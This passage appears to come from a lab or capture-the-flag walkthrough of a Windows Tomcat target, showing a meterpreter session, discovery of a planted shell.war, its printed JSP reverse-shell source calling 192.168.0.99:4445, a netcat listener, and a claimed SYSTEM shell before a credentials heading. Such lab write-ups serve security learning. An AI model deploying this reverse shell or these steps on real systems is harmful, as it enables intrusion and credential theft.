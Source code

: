     meterpreter > search -f *tomcat*
    Found 43 results...
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\tomcat-juli.jar (44739 bytes)
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\Tomcat7.exe (86656 bytes)
        c:\Program Files\Apache Software Foundation\Tomcat 7.0\bin\Tomcat7w.exe (110208 bytes)
        ...

Have a look around.

    meterpreter > cd /Program\ Files/Apache\ Software\ Foundation/Tomcat\ 7.0/webapps
    meterpreter > ls
    Listing: c:\Program Files\Apache Software Foundation\Tomcat 7.0\webapps
    =======================================================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    40777/rwxrwxrwx   4096   dir   2017-11-14 00:15:05 -0500  ROOT
    40777/rwxrwxrwx   16384  dir   2017-11-14 00:15:06 -0500  docs
    40777/rwxrwxrwx   4096   dir   2017-11-14 00:15:06 -0500  examples
    40777/rwxrwxrwx   0      dir   2017-11-14 00:15:06 -0500  host-manager
    40777/rwxrwxrwx   0      dir   2017-11-14 00:15:06 -0500  manager
    40777/rwxrwxrwx   0      dir   2018-02-06 18:41:29 -0500  shell
    100666/rw-rw-rw-  1087   fil   2018-02-06 18:41:29 -0500  shell.war

wtf!? `shell.war`?

Unpack `shell.war` (which is simply a gzip). Browse the source code in `shell/swbjeakb.jsp`.

    if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
      ShellPath = new String("/bin/sh");
    } else {
      ShellPath = new String("cmd.exe");
    }
    
        Socket socket = new Socket( "192.168.0.99", 4445 );
        Process process = Runtime.getRuntime().exec( ShellPath );
        ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
        ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();


The payload appears to be starting a straight (i.e. non meterpreter) reverse shell, to 192.168.0.99 on port 4445. Lets try and catch that using netcat.

    nc -nvlp 4445

Now in a browser, hit the tomcat server and file by navigating to [http://192.168.0.102:8080/shell/](#)



### SYSTEM (root) privileges acheived

Boom! 14:37 on 2018-07-27 root shell timestamp.


### Transition to root meterpreter session and grab credentials

